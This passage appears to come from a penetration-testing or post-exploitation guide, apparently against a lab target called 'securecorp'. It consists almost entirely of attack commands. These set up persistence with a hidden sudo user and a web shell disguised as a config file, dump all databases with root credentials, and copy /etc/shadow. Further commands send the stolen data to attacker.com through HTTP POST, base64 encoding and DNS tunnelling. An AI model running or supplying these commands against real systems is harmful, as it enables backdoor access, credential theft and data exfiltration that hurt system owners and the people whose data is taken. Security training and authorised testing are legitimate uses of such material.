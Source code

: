 **Backdoor User Creation**:
```bash
# Create hidden user
useradd -m -s /bin/bash .backup
echo ".backup:backup123" | chpasswd
usermod -aG sudo .backup

# Hide from w/who commands (optional)
```

**Backdoor Web Shell**:
```bash
# Install persistent web shell
cp /tmp/shell.php /var/www/html/.config.php
chmod 644 /var/www/html/.config.php
chown www-data:www-data /var/www/html/.config.php
```

### 6.2 Data Exfiltration

**Database Dump**:
```bash
# Full database export
mysqldump -u root -pr00tp@ss123 --all-databases > /tmp/database_dump.sql

# Sensitive tables only
mysqldump -u root -pr00tp@ss123 securecorp employees system_config > /tmp/sensitive_data.sql
```

**System Information**:
```bash
# Network configuration
ip addr > /tmp/network_info.txt
route -n >> /tmp/network_info.txt

# User accounts
cat /etc/passwd > /tmp/users.txt
cat /etc/shadow > /tmp/passwords.txt

# System configuration
cat /etc/fstab > /tmp/system_config.txt
crontab -l >> /tmp/system_config.txt
```

**Exfiltration Methods**:
```bash
# HTTP POST exfiltration
curl -X POST -F "file=@/tmp/database_dump.sql" http://attacker.com/upload.php

# Base64 encoding for stealth
base64 -w 0 /tmp/sensitive_data.sql | curl -X POST -d @- http://attacker.com/data

# DNS exfiltration (if other methods blocked)
cat /tmp/sensitive_data.sql | xxd -p | fold -w 32 | while read line; do nslookup $line.attacker.com; done
```

---